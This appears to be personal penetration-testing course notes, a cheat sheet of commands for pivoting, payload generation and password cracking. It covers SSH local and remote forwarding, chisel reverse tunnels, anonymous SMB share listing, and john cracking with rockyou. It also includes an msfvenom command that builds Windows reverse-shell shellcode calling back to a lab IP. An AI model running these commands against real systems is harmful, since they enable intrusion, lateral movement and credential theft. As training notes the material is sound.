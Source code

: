 
# Pivoting

#### SSH Tunneling - Local
format for accessing remote location via localhost forward on Kali
`ssh -N -L [bind_address:]port:host:hostport [username@address]`

ssh tunnel which allows traffic from Kali localhost:445 (0.0.0.0:445) to access 192.168.1.110:445 through SSH to studen@10.11.0.128
`sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128`

#### SSH Tunneling - Remote
format for accessing remote location via remote forward
`ssh -N -R [bind_address:]port:host:hostport [username@address]`

command to ssh into a target (student@192.168.197.52) on port 2222 and then remotely forward port 5555 of student@192.168.197.52 to port 5555 on local kali machine (192.168.119.197) 
` ssh student@192.168.197.52 -p 2222 -N -R 192.168.119.197:5555:127.0.0.1:5555 kali@192.168.119.197`

#### chisel
\*nix local
`./chisel server --reverse -p 9001`

win remote
`./chisel.exe client <IP.ADDR>:9001 R:<PORT_TO_FWD>:LOCALHOST:<PORT_TO_FWD>`



### msfvenom
generate shellcode, filtering out bad characters
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`




## crackmapexec

#### anonymous/fake login - list shares
cme smb 10.10.11.152 -u 'anon' -p '' --shares 




# Cracking
#### cewl
create wordlist from megacorpone.com with a minimum length of 6, output to file "megacorp-cewl.txt"
`cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

#### john
create wordlist from text file with "rules" applied
`john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt grep Nanobot mutated.txt`
crack hash "hash.txt" with a format of "NT" using rockyou 
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT`
crack hash "hash.txt" with a format of "NT" using rules and rockyou 
`john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT`
cracking unshadowed.txt file using "rules"
`john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt`

